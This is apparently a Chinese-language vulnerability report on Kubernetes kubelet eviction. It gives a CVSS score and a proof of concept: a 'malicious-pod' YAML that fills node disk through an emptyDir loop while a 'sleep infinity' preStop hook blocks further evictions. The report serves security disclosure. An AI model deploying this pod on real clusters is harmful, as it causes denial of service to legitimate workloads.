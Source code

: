    - **可利用性（Exploitability）**：
     \[
     可利用性 = 8.22 \times AV \times AC \times PR \times UI = 8.22 \times 0.85 \times 1.0 \times 0.62 \times 1.0 = 4.33
     \]

   - **基础分数（Base Score）**：
     \[
     基础分数 = \text{Min}[(影响 + 可利用性), 10] = \text{Min}[3.59 + 4.33, 10] = 7.92
     \]

   根据CVSS评分，基础分数为7.9，属于高危级别。

**可能的影响：**

- **拒绝服务（DoS）攻击：** 攻击者可以通过阻止kubelet驱逐其他Pod，导致节点资源（如内存、磁盘）耗尽，影响集群的可用性，导致合法服务无法正常运行。

**Proof of Concept：**

1. **创建具有长终止时间的Pod：**

   攻击者创建一个Pod，配置一个`preStop` hook，在其中执行`sleep infinity`，使得该Pod在接收到终止信号后不会立即退出。

   ```yaml
   apiVersion: v1
   kind: Pod
   metadata:
     name: malicious-pod
   spec:
     containers:
     - name: attacker
       image: alpine
       command: ["sh", "-c", "while true; do dd if=/dev/zero of=/emptydir/fill bs=1M count=10; done"]
       volumeMounts:
       - name: emptydir
         mountPath: /emptydir
       lifecycle:
         preStop:
           exec:
             command: ["sh", "-c", "sleep infinity"]
     volumes:
     - name: emptydir
       emptyDir: {}
   ```

2. **消耗节点资源：**

   Pod的容器持续向`emptyDir`卷写入数据，填满磁盘空间，增加节点资源压力。

3. **触发软驱逐：**

   当节点的资源使用达到软驱逐阈值时，kubelet尝试软驱逐该Pod，但由于`preStop` hook中的无限`sleep`，Pod不会立即终止。

4. **阻止进一步的驱逐：**

   在该Pod终止之前，kubelet不会驱逐其他Pod，即使资源使用达到硬驱逐阈值。攻击者利用这一点，阻止kubelet清理资源。


[1]: https://github.com/kubernetes/kubernetes/blob/5cf4fbe524ca1479607a4880949a032064556f76/pkg/kubelet/kuberuntime/kuberuntime_manager.go#L1325
[2]: https://github.com/kubernetes/kubernetes/blob/5cf4fbe524ca1479607a4880949a032064556f76/pkg/kubelet/pod_workers.go#L1484